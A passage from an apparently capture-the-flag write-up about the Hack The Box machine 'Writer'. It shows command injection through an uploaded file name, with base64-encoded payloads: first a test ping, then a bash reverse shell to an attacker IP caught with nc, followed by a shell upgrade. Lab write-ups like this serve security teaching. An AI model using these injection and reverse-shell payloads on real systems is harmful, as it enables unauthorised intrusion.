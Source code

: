 

    mv /var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash; /var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;.jpg



When I send that, I get a ping:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:07:15.179144 IP 10.10.11.101 > 10.10.14.6: ICMP echo request, id 6, seq 1, length 64
    21:07:15.179164 IP 10.10.14.6 > 10.10.11.101: ICMP echo reply, id 6, seq 1, length 64



#### Shell

To get a shell, I'll modify the file name:



    oxdf@parrot$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 
    YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=
    oxdf@parrot$ touch 'test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=|base64 -d|bash;'



I'll upload that file by editing a post, and verify it's on Writer:

[![](/img/image-20211201212327224.png)*Click
for full size
![image*](/img/image-20211201212327224.png)

Now I'll modify the request in Burp to get that by url:

![](/img/image-20211201212618719.png)

With `nc` listening, I'll send that, and a shell comes back:



    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 51182
    bash: cannot set terminal process group (1051): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@writer:/$ 



I'll do a shell upgrade:



    www-data@writer:/$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@writer:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@writer:/$ 

